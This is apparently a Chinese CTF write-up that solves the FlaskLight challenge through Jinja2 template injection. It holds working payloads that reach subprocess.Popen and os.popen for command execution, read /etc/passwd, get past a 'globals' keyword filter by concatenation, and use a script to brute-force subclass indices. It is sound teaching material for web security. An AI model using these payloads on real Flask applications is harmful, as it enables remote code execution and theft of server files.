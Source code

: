 # [CSCCTF 2019 Qual]FlaskLight 过滤 url_for globals 绕过globals过滤

**目录**

[TOC]



  
 [](https://blog.csdn.net/rfrder/article/details/111239601) 

这题很明显就是SSTI了



<img src="https://i-blog.csdnimg.cn/blog_migrate/9b594a068b8bdfc2f1de671e663d3ddb.png" alt="" style="max-height:335px; box-sizing:content-box;" />


源代码

我们试试看

{{7*7}}



<img src="https://i-blog.csdnimg.cn/blog_migrate/186aa5118ac86a7e9e2d354511b5e8fb.png" alt="" style="max-height:312px; box-sizing:content-box;" />


然后我们就开始吧

原本我的想法是直接{{url_for.__globals__}}

但是回显是直接500 猜测过滤 我们正常来吧

```handlebars
{{"".__class__}}  查看当前情况
 
{{"".__class__.__base__}} 查看基类 这里发现没有利用的 我们修改代码
 
{{"".__class__.__mro__}}  查看全部类  发现存在<type 'object'>了
 
 
 
{{"".__class__.__mro__[2].__subclasses__()}}  查看object的子类
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ba2b09ddb71da8dbb8038f7d1483078f.png" alt="" style="max-height:770px; box-sizing:content-box;" />


这里我们需要 os 来调用

但是这里存在一个类 可以不需要os

## subprocess.Popen

 [Python3 subprocess | 菜鸟教程](https://www.runoob.com/w3cnote/python3-subprocess.html) 

需要参数

```cobol
("命令",shell=True,stdout=-1)
 
这里 stdout  就是指定输出 PIPE
```

然后我们可以使用 其方法来进行交互

```cobol
("命令",shell=True,stdout=-1).communicate()
```

这样我们就可以实现rce

首先通过 脚本跑出来其的位数

```cobol
import time
 
import  requests
 
base_url="http://1a3ad76d-35d3-4a35-97fb-8997c87bf989.node4.buuoj.cn:81/?search="
 
for i in range(300):
    payload="{{\"\".__class__.__mro__[2].__subclasses__()[%s]}}"%i
    r = requests.get(url=base_url + payload)
    if "subprocess.Popen" in r.text:
        print(i)
    if r.status_code == 429:
        time.sleep(0.5)
```

跑出来是258



我们开始构造

```handlebars
?search={{''.__class__.__mro__[2].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0].strip()}}
 
最后的.communicate()[0].strip() 通过 communicate方法 输出 并且指定数组 去除空白符
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d703b4d88d54fd8097c8122210e4d13a.png" alt="" style="max-height:106px; box-sizing:content-box;" />


我们看看 flasklight看看

```handlebars
?search={{''.__class__.__mro__[2].__subclasses__()[258]("cat /flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0].strip()}}
```

## FILE

这是另一个方法 通过file读取文件

首先我们要测试一下

先查找一下 file



<img src="https://i-blog.csdnimg.cn/blog_migrate/290f24cab36a1c029a2c5d20782281f6.png" alt="" style="max-height:355px; box-sizing:content-box;" />


发现是40

然后我们看看

```handlebars
{{"".__class__.__mro__[2].__subclasses__()[40]}}
```

```handlebars
/?search={{"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/11361e2cbe944622ed9f5b20c7f375f8.png" alt="" style="max-height:301px; box-sizing:content-box;" />


读取成功

然后我们去读一下命令行吧



<img src="https://i-blog.csdnimg.cn/blog_migrate/81c572057cae1a9459f941ecb1228575.png" alt="" style="max-height:152px; box-sizing:content-box;" />


发现读出了路径

我们看看这个py



<img src="https://i-blog.csdnimg.cn/blog_migrate/b8fe33fe7822debca1a8e89eaaaded61.png" alt="" style="max-height:279px; box-sizing:content-box;" />


但是还是没有办法直接读取出来 因为不知道flag的文件名字

## warnings.catch_warnings

我们首先找一下这个类的位数

59

```handlebars
{{"".__class__.__mro__[2].__subclasses__()[59].__init__}}
```

这里就卡住了 因为我们还是需要 globals的参与

我们如何绕过过滤呢

```handlebars
{{"".__class__.__mro__[2].__subclasses__()[59].__init__['__glo'+'bals__']}}
```

这样就可以

我们在上面也知道 是通过匹配过滤的

做到这个我们其实就可以正常rce了 但是还是完善一下这个类的用法吧



<img src="https://i-blog.csdnimg.cn/blog_migrate/05c9fd129a6b1d090443c69a50ffa419.png" alt="" style="max-height:171px; box-sizing:content-box;" />


这里我们能发现 这个类没有加载 os 需要我们手动加载

我们需要在其

```less
['__builtins__']['eval']
```

下导入

payload

```handlebars
?search={{"".__class__.__mro__[2].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

这样就借助 os 实现了 rce

## site._Printer

我们知道了 globals可以拼接绕过

这个方法也可以实现我们看看里面是否内置了 os

```cobol
?search={{"".__class__.__mro__[2].__subclasses__()[71].__init__['__glo'+'bals__']}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/025b2b158b7694cc1c3d64d75a827d4c.png" alt="" style="max-height:203px; box-sizing:content-box;" />


发现存在 我们直接rce即可

```handlebars
?search={{"".__class__.__mro__[2].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a7abe678f689d9b18ed55c9d61051b11.png" alt="" style="max-height:180px; box-sizing:content-box;" />


最后读取即可